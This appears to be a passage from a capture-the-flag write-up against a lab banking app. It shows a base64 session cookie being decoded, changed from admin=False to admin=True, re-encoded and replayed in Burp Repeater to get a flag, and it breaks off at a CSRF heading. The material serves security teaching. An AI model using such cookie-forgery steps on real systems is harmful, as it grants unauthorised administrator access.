 ```http
Vary: Origin
Access-Control-Allow-Credentials: true
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 15:03:24 GMT

{"login": "success"}
```

`echo -n 'bG9nZ2VkaW49VHJ1ZTthZG1pbj1GYWxzZQ==' | base64 -d`:
```
loggedin=True;admin=False
```

`echo -n 'loggedin=True;admin=True' | base64`:
```
bG9nZ2VkaW49VHJ1ZTthZG1pbj1UcnVl 🚩
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /login HTTP/1.1
Host: 192.228.47.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://secure-bank.com:5000/login
Content-Type: application/json;charset=utf-8
Content-Length: 47
Origin: http://secure-bank.com:5000
Connection: close
Cookie: sessid=bG9nZ2VkaW49VHJ1ZTthZG1pbj1UcnVl 📌

{"email":"james@secbank.com","password":"password1"}
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 44
Access-Control-Allow-Origin: http://secure-bank.com:5000
Vary: Origin
Access-Control-Allow-Credentials: true
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 15:13:33 GMT

{"flag": "251e2203c108d0a8eb1a9572199d24d1"} 🚩
```

---

## Cross-Site Request Forgery (CSRF)
